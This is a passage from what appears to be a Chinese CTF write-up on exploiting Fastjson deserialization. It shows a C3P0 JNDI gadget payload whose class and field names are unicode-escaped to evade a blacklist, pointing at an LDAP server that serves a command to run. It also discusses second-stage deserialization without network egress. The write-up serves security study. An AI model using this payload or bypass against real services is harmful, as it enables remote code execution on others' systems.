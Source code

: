 [![](assets/1709282823-9619929d69768265648ac7af0aa3f69e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229162711-5581e202-d6dc-1.png)

当然除了直接打 1.2.24 的 JNDI 也可以打 C3P0 的 JNDI，只是需要用 unicode 或者 16 进制去绕过即可

```plain
{"@type":"com.mchange.v2.c3p0.\u004a\u006e\u0064\u0069\u0052\u0065\u0066\u0043\u006f\u006e\u006e\u0065\u0063\u0074\u0069\u006f\u006e\u0050\u006f\u006f\u006c\u0044\u0061\u0074\u0061\u0053\u006f\u0075\u0072\u0063\u0065","\u004a\u006e\u0064\u0069\u004e\u0061\u006d\u0065":"ldap://127.0.0.1:1389/Basic/Command/calc", "LoginTimeout":0}
```

[![](assets/1709282823-6bf1006a1603bdf2a2154f700caba53a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229162722-5c17fcd2-d6dc-1.png)

### 不出网打二次反序列化

C3P0 打二次反序列化，可以看到该题存在 Vaadin 的依赖，所以可以通过 C3P0 打 Vaadin 的反序列化，但是由于他把`TemplatesImpl`​的 16 进制也给 ban 了，这样子我们就没办法用 C3P0 打二次反序列化来使用`TemplatesImpl`​加载字节码了
